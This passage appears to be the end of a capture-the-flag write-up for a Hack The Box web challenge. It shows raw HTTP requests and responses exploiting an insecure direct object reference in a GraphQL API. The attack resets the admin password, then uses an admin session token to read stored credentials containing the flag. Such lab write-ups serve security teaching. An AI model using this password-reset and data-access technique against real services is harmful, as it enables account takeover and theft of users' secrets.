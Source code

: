 ```http
    "username": "admin",
    "password": "1234"
  }
}
```

And here is the response:

```json
{
  "data": {
    "UpdatePassword": {
      "message": "Password updated successfully!",
      "token": null
    }
  }
}
```

It seems we changed admin's password, Let's check it\
Yes, we logged in as admin and now we can see admin's notes inside saved_password table which is actually the flag

```http
POST /graphql HTTP/1.1
Host: 138.68.162.218:32084
Content-Length: 84
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.0.0 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: http://138.68.162.218:32084
Referer: http://138.68.162.218:32084/dashboard
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,fa;q=0.8
Cookie: session=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaXNfYWRtaW4iOjEsImlhdCI6MTY3OTc5ODMyOH0.uZ5Bqop3SSoHX4cgxHZn6kJLKXT3CX3d3wz9WLE4bRw
Connection: close

{
  "query": "{ getPhraseList { id, owner, type, address, username, password, note } }"
}
```

```json
{
  "data": {
    "getPhraseList": [
      {
        "id": "1",
        "owner": "admin",
        "type": "Web",
        "address": "igms.htb",
        "username": "admin",
        "password": "HTB{1d0r5_4r3_s1mpl3_4nd_1mp4ctful!!}",
        "note": "password"
      }
    ]
  }
}
```

And here is the flag:
```
HTB{1d0r5_4r3_s1mpl3_4nd_1mp4ctful!!}
```
